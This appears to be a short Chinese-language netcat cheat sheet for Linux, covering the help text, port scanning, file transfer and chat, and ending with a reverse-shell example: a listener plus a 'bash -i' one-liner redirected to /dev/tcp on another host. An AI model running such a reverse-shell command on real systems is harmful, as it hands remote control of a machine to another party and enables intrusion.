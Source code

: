 
##linux nc反弹shell

```
nc --help

v1.10-41.1]

想要连接到某处: nc [-options] hostname port[s] [ports] …
绑定端口等待连接: nc -l -p port [-options] [hostname] [port]
-l 监听模式，用于入站连接
-n 指定数字的IP地址，不能用hostname
-o file 记录16进制的传输
-i secs 延时的间隔
-p port 本地端口号
-r 任意指定本地及远程端口
-s addr 本地源地址
-u UDP模式
-v 详细输出 用两个-
-z 将输入输出关掉——用于扫描模式，其中端口号可以指定一个或者用lo-hi式的指定范围。



```

简单用法：

####端口扫描
```
nc -v -w 2 192.168.0.1 -z 80-85
```
####从1拷贝到2：
```
nc -l 1234 > test.txt

nc 192.168.0.1 < test.txt
```
####聊天工具：
```
192.168.0.1 nc -l 222

192.168.0.2 nc 192.168.0.1 222
```
####nc 传文件：
```
发送端 cat 1.txt |nc -l 222
接收端 nc 192.168.0.1 222 > 1.txt

或者

发送端 cat 1.txt |nc 192.168.0.1 222
接收端 nc -l 222 > 1.txt
````
###反弹shell
```
nc -lvp 7777 #监听777

bash -i >& /dev/tcp/192.168.0.4/7777 0>&1
```